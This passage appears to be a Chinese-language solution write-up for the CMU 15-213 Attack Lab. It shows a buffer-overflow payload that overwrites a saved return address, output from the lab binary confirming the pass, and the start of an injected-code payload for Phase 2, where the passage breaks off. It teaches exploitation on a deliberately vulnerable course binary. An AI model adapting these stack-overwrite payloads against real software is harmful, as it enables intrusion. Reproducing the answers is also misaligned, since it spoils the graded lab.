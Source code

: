 要覆写`ret`的地址，我们只需要构造字节码即可

```text
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00 /* modify ret address saved on stack */
```

PASS

```text
➜  attacklab git:(main) ✗ ./hex2raw < phase_1.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00
```

### Phase 2

首先实验要求我们跳到`touch2()`

```c
void touch2(unsigned val)
{
  vlevel = 2; /* Part of validation protocol */
  if (val == cookie) {
    printf("Touch2!: You called touch2(0x%.8x)\n", val);
    validate(2);
  } else {
    printf("Misfire: You called touch2(0x%.8x)\n", val);
    fail(2);
  }
  exit(0);
}
```

如果参数为cookie的话，就会PASS，否则不会。

也不是非常难的样子，只要把cookie即`0x59b997fa`给送入`%rdi`里头，然后跳转到`touch2`即可。

我们先构造一下汇编代码

```text
mov $0x59b997fa, %rdi
pushq $0x4017ec
retq
```
